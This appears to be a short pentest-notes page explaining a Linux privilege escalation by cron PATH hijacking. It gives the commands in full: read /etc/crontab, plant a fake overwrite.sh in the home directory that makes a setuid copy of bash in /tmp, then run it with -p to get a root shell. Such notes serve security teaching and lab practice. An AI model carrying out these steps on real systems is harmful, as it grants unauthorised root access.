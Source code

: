 # PATH Environment Variable

```bash
cat /etc/crontab
```

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption><p>the path is home of the user, so you can have two 'overwrite.sh' file and it will run the first one it found</p></figcaption></figure>

Create a file called overwrite.sh (one of the scheduled programs in the crontab)  in your home directory (this is the chosen path in the file for the PATH variable, so you can use a file in here)  with the following contents:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

{% hint style="warning" %}
Make sure that the file is executable:

```bash
chmod +x /home/user/overwrite.sh
```
{% endhint %}

then just run the file you copied (after one period of files);

```bash
/tmp/rootbash -p
```
